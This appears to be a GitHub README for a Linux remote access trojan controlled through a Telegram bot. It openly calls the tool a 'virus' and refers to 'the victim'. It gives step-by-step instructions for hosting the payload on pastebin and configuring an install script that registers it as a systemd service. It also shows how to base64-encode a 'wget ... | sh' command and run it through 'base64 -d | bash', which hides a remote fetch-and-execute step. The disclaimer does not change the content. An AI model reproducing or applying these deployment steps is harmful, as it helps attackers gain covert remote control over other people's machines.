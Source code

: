 # linuxRAT-tgBot 🖤🐧
<sub>ignore the program's output during boot</sub>
##### Disclaimer ⚠️
- Neither the project nor its developer promote any kind of illegal activity and are **not** responsible for any misuse or damage caused by this project.
- This project is for the purpose of penetration **testing only**.
- Please do **not** use this tool on other people's devices without their permission.
- Do **not** use this tool to harm others.
- Use this project responsibly on your own devices **only**.
- It is the end user's **responsibility** to obey all applicable local, state, federal, and international laws.
- This software is meant for educational purposes only. I'm **not** responsible for any malicious use of the app.
- I'm **not** responsible for any malicious use of the app.

# Features 🔥
- this is a remote access virus (so-called RAT);
- the victim does not need a white IP ✨;
- management is carried out using a telegram bot;
- you just need to put the data in a configuration file and upload it all to [pastebin](https://pastebin.com/);
- easy to use

# Requirements 👀
+ python3
    + aiogram==3.0.0b6
    + requests
+ bash commands
    + WGET
	+ CURL
    + imagemagick (not necessarily)
	+ cd
	+ systemct ( systemd🐧 )
	+ sleep (not necessarily)
	+ echo (not necessarily)
	+ if 
	+ then
	+ mkdir
	+ apt (not necessarily)
	+ clear (not necessarily)
+ internet
+ linux!

# Install  🥷🏽
Well, let's start!
I use pastebin, you can use any text paste tool on the web.

1) Setup the bot's config:   
1.1) Copy all code from this [site](https://raw.githubusercontent.com/dentuwu/linuxRAT-tgBot/main/kernel.py).   
1.2) Paste this code in pastebin.com   
1.3) In the TOKEN ribbon, enter your bot token.   
1.4) In the ADMINS ribbon, enter the administrator's ID (listing the user's id in commas), so that only they can use the bot, the id can be taken in [this bot](t.me/myidbot).   
1.5) In the TIMEOUT ribbon, enter a timeout, if the command takes a long time to execute, it will be aborted after n (default 45) seconds.   

2) You should have it in the settings:     
+ Paste Expiration: 1 Week (recommended).    
+ Paste Exposure: Unlisted (so other users don't see your token and id).   

You should get it:   

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/code.jpg "code kernel.py") 
 
![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/optional-paste-settings.jpg "settings paste")

2.1) **Touch** button "Create New Paste".     
3) Click on raw, and **save** the received link:     

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/raw.jpg "rickroll")

4) Setup the install.sh config    
4.1) Copy all code from this [site]https://github.com/dentuwu/linuxRAT-tgBot/raw/main/install.sh).   
4.2) Paste this code in pastebin.com    
4.3) In the URL_KERNEL_PY ribbon, enter the link obtained in point 3.    

 ![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/url-kernel-py.jpg "url kernel py")

4.4) If possible, do the same with URL_KERNEL_SERVICE,URL_NO_ROOT_KERNEL_SERVICE, services are at [this link](https://github.com/dentuwu/linuxRAT-tgBot/tree/main/services), it is **not necessary**.     
4.5) Repeat the points 2.1 and 3.   

##### Using
Open a new terminal, and write this code :   
```bash
 echo "wget url  -O- | sh" | base64
```
Instead of **url**, there should be a link obtained in point 4.5   

You received something like this output - cmlja3JvbGwK, copy it and formulate a ready-made command to download the script and run it:   

```bash
 echo output | base64 -d | bash
```
 
Run this command (on your devices only)!  


## The victim does work
**this is script tested on:**  
* Ubuntu 22.04 LTS  

## The victim does not work in
* Termux

